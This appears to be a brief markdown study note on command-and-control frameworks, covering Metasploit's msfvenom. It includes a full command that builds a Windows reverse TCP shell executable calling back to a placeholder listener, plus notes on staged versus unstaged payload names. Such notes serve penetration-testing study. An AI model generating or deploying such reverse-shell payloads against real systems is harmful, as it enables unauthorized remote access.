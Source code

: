 # C2-Frameworks

## Metasploit - MSFVENOM 

### example procedure

e.g.  `msfvenom --list payloads | grep "linux/x86/meterpreter"`

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

notice
1. -f format
2. -o output_file
3. -p payload os/arch/payload


### some nuance and gotchas

- Payloads with `shell/reverse_tcp` is staged 	
- Payloads with `shell_reverse_tcp` is unstaged 
- sometimes it says meterpreter instead of shell, these require the meterpreter multihandler to catch them
- notice the `/_` between shell and reverse
	- `/` is staged
	- `_` is not staged

